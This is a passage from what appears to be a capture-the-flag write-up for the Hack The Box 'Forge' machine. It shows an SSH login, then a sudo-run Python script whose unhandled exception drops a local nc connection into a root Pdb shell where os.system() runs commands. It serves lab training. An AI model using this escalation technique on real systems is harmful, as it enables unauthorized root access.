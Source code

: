 ```
$ ssh -i user user@forge.htb
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-81-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 12 Sep 2021 05:52:45 PM UTC

  System load:           0.01
  Usage of /:            44.0% of 6.82GB
  Memory usage:          22%
  Swap usage:            0%
  Processes:             224
  Users logged in:       1
  IPv4 address for eth0: 10.129.219.213
  IPv6 address for eth0: dead:beef::250:56ff:feb9:741e


0 updates can be applied immediately.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sun Sep 12 17:50:42 2021 from 10.10.14.46
user@forge:~$
```

```
user@forge:~$ sudo /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:14562
```

On our initial session we connect to the socket with nc. We enter the password and then simply a non numerical value like `a` to make `int()` throw an exception.

```
user@forge:~$ nc localhost 14562
Enter the secret passsword: secretadminpassword
Welcome admin!

What do you wanna do:
[1] View processes
[2] View free memory
[3] View listening sockets
[4] Quit
a
```

This drops us into a Pdb shell where we can interactively run python code. An easy way to abuse this is to just import the `os` module and use the `system()` function to run commands on the underlying system.
